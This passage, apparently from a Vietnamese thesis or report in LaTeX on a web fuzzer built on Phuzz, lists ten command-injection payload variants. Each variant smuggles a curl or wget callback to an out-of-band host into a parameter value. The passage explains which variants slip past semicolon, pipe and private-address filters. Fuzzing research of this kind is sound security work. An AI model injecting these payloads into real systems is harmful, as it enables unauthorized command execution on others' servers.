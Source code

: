 \begin{table}[h]{Các biến thể payload của \texttt{CmdInjectionSSRFMutator}}
\label{tab:cmdinj-variants}
\centering
\small
\begin{tabular}{|c|l|p{9.5cm}|}
\hline
\textbf{\#} & \textbf{Toán tử} & \textbf{Payload mẫu} \\
\hline
0 & Semicolon    & \texttt{<val>; curl http://172.20.0.10:8000/<t>} \\
1 & Pipe         & \texttt{<val> | curl -s http://172.20.0.10:8000/<t>} \\
2 & Background   & \texttt{<val>\& curl http://172.20.0.10:8000/<t> \&} \\
3 & Logical-AND  & \texttt{<val> \&\& curl http://172.20.0.10:8000/<t>} \\
4 & Subshell     & \texttt{<val> \$(curl -s http://172.20.0.10:8000/<t>)} \\
5 & Backtick     & \texttt{<val> `curl -s http://172.20.0.10:8000/<t>`} \\
6 & wget         & \texttt{<val>; wget -q -O- http://172.20.0.10:8000/<t>} \\
7 & Newline      & \texttt{<val>}\textbackslash\texttt{ncurl http://172.20.0.10:8000/<t>} \\
8 & Null-byte    & \texttt{<val>\%00; curl http://172.20.0.10:8000/<t>} \\
9 & Hostname     & \texttt{<val>; curl http://oob.phuzz:8000/<t>} \\
\hline
\end{tabular}
\end{table}

Biến thể 4 (subshell \texttt{\$()}) và biến thể 5 (backtick) đặc biệt
hữu ích khi bộ lọc đầu vào chặn dấu chấm phẩy và dấu pipe nhưng bỏ
sót command substitution. Biến thể 8 (null-byte \texttt{\%00}) nhắm vào
các ứng dụng C/PHP tách chuỗi tại ký tự null. Biến thể 9 dùng hostname
\texttt{oob.phuzz} thay vì IP để vượt qua bộ lọc chặn địa chỉ RFC-1918
ở tầng shell.

\subsection{Tích hợp vào Fuzzer}

\texttt{SSRFMutator} được tích hợp vào \texttt{SingleMutator} qua lazy
import, đặt cùng danh sách với các \texttt{ParamMutator} gốc của Phuzz:

